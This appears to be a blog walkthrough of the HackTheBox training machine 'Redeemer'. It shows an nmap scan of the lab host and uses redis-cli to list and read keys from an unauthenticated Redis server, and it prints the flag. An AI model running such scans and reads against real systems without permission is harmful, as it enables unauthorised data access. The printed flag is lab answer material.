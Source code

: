 ```yaml
---
title: "HackTheBox - Redeemer"
date: 2023-12-25 07:52:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, redis, databases]
image:
    path: /assets/img/htb/Redeemer.png
    alt: Redeemer - HackTheBox
---
```


[**Redeemer**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Redeemer we will learn about **Redis (REmote DIctionary Server)**.

## Introduction

- Connect **Redeemer** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.150.140

PING 10.129.150.140 (10.129.150.140) 56(84) bytes of data.
64 bytes from 10.129.150.140: icmp_seq=1 ttl=63 time=234 ms
64 bytes from 10.129.150.140: icmp_seq=2 ttl=63 time=275 ms
64 bytes from 10.129.150.140: icmp_seq=3 ttl=63 time=296 ms
64 bytes from 10.129.150.140: icmp_seq=4 ttl=63 time=319 ms

--- 10.129.150.140 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 234.354/280.959/318.905/31.135 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]), `-p-` to scan all ports without exception, and `-Pn` to treat all hosts as online.

```bash
❯ nmap -sV -T4 -p- -Pn 10.129.150.140

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 08:23 WIB
Warning: 10.129.150.140 giving up on port because retransmission cap hit (6).
Nmap scan report for JSN.JaringanKU (10.129.150.140)
Host is up (0.21s latency).
Not shown: 64934 closed tcp ports (conn-refused), 600 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1458.17 seconds
```

You can see, the open port is 6379/tcp which is a Redis service. We can connect to the Redis service using `redis-cli`. If you don't have it, please download it first.

## Foothold

It's time to connect to the Redis service with `redis-cli`. If you don't know the command, use `--help` to display help. Use `-h` to connect to the destination host.

### Redis

To display all databases, we can use the command `keys *`, and to display the contents of the database use `get <key>`.

```bash
❯ redis-cli -h 10.129.150.140

10.129.150.140:6379> keys *
1) "stor"
2) "numb"
3) "flag"
4) "temp"

10.129.150.140:6379> get stor
"e80d635f95686148284526e1980740f8"

10.129.150.140:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"

10.129.150.140:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"

10.129.150.140:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```